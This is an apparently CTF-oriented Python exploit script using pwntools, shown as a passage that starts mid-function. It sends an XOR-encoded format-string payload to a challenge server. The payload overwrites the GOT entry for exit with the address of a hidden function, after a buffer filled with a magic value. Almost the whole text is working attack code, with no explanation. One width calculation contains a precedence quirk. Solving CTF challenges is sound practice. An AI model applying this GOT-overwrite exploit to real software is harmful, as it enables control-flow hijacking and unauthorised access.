 ```python
	for i in xrange(len(b) - 4):
		for j in xrange(len(magic)):
			b[i + j] ^= ord(magic[j])
	return b


def send_payload(payload, proc = None):
	log.info("payload = {} (len = {})".format(repr(payload), len(payload)))
	if proc is None:
		proc = process(PROC_NAME)
	proc.recvuntil("name?")
	proc.send("X" * 28 + p32(MAGIC_VALUE))
	proc.recvuntil("again")
	enc_payload = encrypt(payload)
	proc.send(enc_payload)
	proc.recvuntil("name: ")
	ret = proc.recvall()
	log.info("return = {}".format(repr(ret)))
	return ret


e = ELF(PROC_NAME)
got_exit_addr = e.got['exit']
log.info("got_exit_addr = {}".format(hex(got_exit_addr)))
superSecretFunc_addr = e.symbols['superSecretFunc']
log.info("superSecretFunc = {}".format(hex(superSecretFunc_addr)))

f = FmtStrEx(execute_fmt=send_payload)

exploit = bytearray(p32(got_exit_addr))
exploit += "%{}x".format( (superSecretFunc_addr) & (0xFFFF) - (len(exploit)) ) + "%{}$hn".format(f.offset)
log.info("exploit = {} (len = {})".format(exploit, len(exploit)))

print send_payload(exploit, remote('chal.noxale.com', 5678))
```